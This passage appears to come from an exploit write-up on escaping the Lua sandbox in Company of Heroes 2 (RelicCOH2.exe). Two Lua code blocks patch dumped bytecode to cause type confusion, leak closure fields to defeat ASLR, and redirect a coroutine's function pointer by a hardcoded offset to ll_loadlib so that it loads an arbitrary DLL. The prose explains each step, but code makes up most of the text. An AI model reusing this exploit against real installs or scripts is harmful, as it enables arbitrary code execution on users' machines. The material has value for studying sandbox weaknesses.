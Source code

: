 ```lua
loadstring(string.dump(function()
  local magic = nil
  local function middle()
    local print, asnum, f2ii = print, asnum, f2ii
    local co, upval
    local function inner()
      do local l0 = 2^52 local l1, l2, l3, l4, l5, l6, l7 = l0, l0, l0, l0, l0, l0, l0 end
      co = coroutine.wrap(function() end)
      upval = 2^52 .."next".."t".."m".."pa".. ub4(asnum(co) - 2^52 + 12)
      local upval_ptr = ub4(asnum(upval) - 2^52 + 16 + 20)
      magic = upval_ptr .. upval_ptr
    end
    inner()
    print(f2ii(asnum(magic))) --> 7906440, 1396459600
  end
  middle()
end):gsub("(\100%z%z%z)....", "%1\0\0\0\1", 1))()
```

In this example, we call `coroutine.wrap` in order to create a `CClosure`, and then print out the `env` and `f` fields of the `CClosure`. The line prior to the assignment to `co` sprays the stack with the value `2^52` to ensure that we can do the usual `asnum(co) - 2^52` trick. For pulling out the `f` field, we cannot use the `2^52` trick,  as the `f` field is followed by 4 bytes of padding whose value is indeterminate. Instead, we create an `UpVal` whose `TValue*` is the address of the `env` field, and use `f2ii`/`asnum` to read two 32-bit values. Note that we could set the `TValue*` to the address of `f`, but this would increase the likelihood of `f2ii` receiving a NaN or an infinity as input, which it cannot handle.

By disassembly, we can learn that in RelicCOH2.exe, `luaB_auxwrap` and `ll_loadlib` are 39984 bytes apart. This leads to the following code for defeating ASLR:

```lua
loadstring(string.dump(function()
  local magic = nil
  local function middle()
    local print, asnum, f2ii = print, asnum, f2ii
    local co, upval
    local function inner()
      do local l0 = 2^52 local l1, l2, l3, l4, l5, l6, l7 = l0, l0, l0, l0, l0, l0, l0 end
      co = coroutine.wrap(function() end)
      upval = 2^52 .."next".."t".."m".."pa".. ub4(asnum(co) - 2^52 + 12)
      local upval_ptr = ub4(asnum(upval) - 2^52 + 16 + 20)
      magic = upval_ptr .. upval_ptr
    end
    local dll_name = "my_dll.dll"
    local function_name = "entry_point"
    local delta = 39984 -- this offset is only valid for RelicCOH2.exe; it will lead to a crash in most other programs
    inner()
    local env, f = f2ii(asnum(magic))
    f = f + delta
    magic = ii2f(env, f)
    co(dll_name, function_name) -- calls ll_loadlib
  end
  middle()
end):gsub("(\100%z%z%z)....", "%1\0\0\0\1", 1))()
```
